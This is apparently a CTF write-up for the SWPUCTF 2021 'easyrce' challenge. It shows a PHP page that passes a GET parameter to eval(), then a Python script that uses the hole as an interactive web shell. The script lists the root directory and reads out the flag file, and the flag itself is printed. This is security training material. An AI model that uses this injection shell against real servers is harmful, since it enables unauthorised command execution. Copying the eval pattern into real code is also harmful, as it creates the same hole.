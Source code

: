 ```yaml
---
title: '[SWPUCTF 2021 新生赛]easyrce'
date: '2025-05-02T18:50:53+08:00'
weight: 
draft: false
description: '[SWPUCTF 2021 新生赛]easyrce'
---
```


存在 RCE 漏洞：`eval($_GET['url']);`

```php
 <?php
error_reporting(0);
highlight_file(__FILE__);
if(isset($_GET['url']))
{
eval($_GET['url']);
}
?> 
```

构造 Web Shell

```python
import requests

url = 'http://node5.anna.nssctf.cn:27625/'

while True:
    cmd = input('> ')

    if cmd == 'quit':
        break

    payload = {'url': f'echo `{cmd}`;'}

    response = requests.get(url, params=payload)

    print(response.text)
```

列出 `/` 的所有文件

```shell
> ls /
<code><span style="color: #000000">
<br /></span><span style="color: #0000BB">?&gt;</span>
</span>
</code>bin
boot
dev
etc
flllllaaaaaaggggggg
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```

输出 `/flllllaaaaaaggggggg` 的内容

```shell
> cat /flllllaaaaaaggggggg
<code><span style="color: #000000">
<br /></span><span style="color: #0000BB">?&gt;</span>
</span>
</code>NSSCTF{9e548da1-17a3-4796-9c5a-4a01febefd98}

> quit
```